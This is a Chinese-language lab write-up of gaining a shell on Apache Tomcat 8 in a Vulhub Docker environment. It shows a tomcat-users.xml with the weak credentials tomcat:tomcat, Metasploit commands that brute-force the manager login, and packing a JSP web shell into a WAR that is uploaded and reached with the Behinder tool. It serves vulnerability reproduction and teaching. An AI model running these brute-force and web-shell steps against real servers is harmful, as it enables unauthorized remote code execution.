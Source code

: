 # Apache Tomcat8 弱口令+后台getshell漏洞

## 漏洞描述

Tomcat支持在后台部署war文件，可以直接将webshell部署到web目录下。其中，欲访问后台，需要对应用户有相应权限。

Tomcat7+权限分为：

- manager（后台管理）
  - manager-gui 拥有html页面权限
  - manager-status 拥有查看status的权限
  - manager-script 拥有text接口的权限，和status权限
  - manager-jmx 拥有jmx权限，和status权限
- host-manager（虚拟主机管理）
  - admin-gui 拥有html页面权限
  - admin-script 拥有text接口权限

这些权限的究竟有什么作用，详情阅读 http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html

在`conf/tomcat-users.xml`文件中配置用户的权限：

```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
    
</tomcat-users>
```

可见，用户tomcat拥有上述所有权限，密码是`tomcat`。

正常安装的情况下，tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击。

## 漏洞影响

Tomcat版本：8.0

## 环境搭建

Vulhub无需编译，直接启动整个环境：

```
docker-compose up -d
```

访问`http://your-ip:8080/`即可访问Apache Tomcat/8.0.43页面。

## 漏洞复现

### metasploit爆破tomcat弱口令

访问`http://your-ip:8080/`，点击Manager App：

![image-20220412133434883](images/image-20220412133434883.png)

跳转tomcat管理页面`http://your-ip:8080/manager/html`，提示输入用户名和密码：

![image-20220412133846764](images/image-20220412133846764.png)

在kali中使用metasploit对tomcat用户名和密码进行爆破：

```
┌──(root kali)-[/home/kali]
└─# msfconsole

# 搜索tomcat相关模块
msf6 > search tomcat
...
   23  auxiliary/scanner/http/tomcat_mgr_login	normal     No     Tomcat Application Manager Login Utility
...

# 使用tomcat_mgr_login模块进行爆破
msf6 > use auxiliary/scanner/http/tomcat_mgr_login

# 设置服务地址
msf6 auxiliary(scanner/http/tomcat_mgr_login) >show options
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS <your-ip>
RHOSTS => <your-ip>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
```

爆破成功，用户名密码为`tomcat:tomcat`：

![image-20220412135451368](images/image-20220412135451368.png)

输入弱密码`tomcat:tomcat`，即可访问后台。

### 制作war包并上传

首先制作war包`project.war`：

```
E:\Behinder3\server>jar -cvf project.war shell.jsp
已添加清单
正在添加: shell.jsp(输入 = 612) (输出 = 449)(压缩了 26%)
```

上传war包：

![image-20220412135536050](images/image-20220412135536050.png)

成功部署：

![image-20220412140450360](images/image-20220412140450360.png)

冰蝎3成功连接`http://your-ip:8080/project/shell.jsp`：

![image-20220412143831721](images/image-20220412143831721.png)


